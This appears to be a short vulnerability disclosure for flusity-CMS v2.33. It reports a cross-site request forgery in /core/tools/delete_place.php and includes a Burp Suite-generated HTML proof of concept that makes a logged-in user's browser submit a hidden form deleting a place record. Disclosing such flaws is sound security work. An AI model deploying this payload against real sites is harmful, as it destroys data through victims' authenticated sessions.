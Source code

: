 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /core/tools/delete_place.php

![1](https://github.com/xiaolanjing0/cms/assets/99333774/61f20d84-d367-4387-8d67-76246685f1ab)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/core/tools/delete_place.php" method="POST">
      <input type="hidden" name="action" value="delete&#95;place" />
      <input type="hidden" name="place&#95;id" value="19" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>



```

![2](https://github.com/xiaolanjing0/cms/assets/99333774/b357b22d-0d03-4c20-aa46-21a53757404b)


Successed

![3](https://github.com/xiaolanjing0/cms/assets/99333774/d02e903e-c00c-4bff-96d7-302fb3a1cf7c)
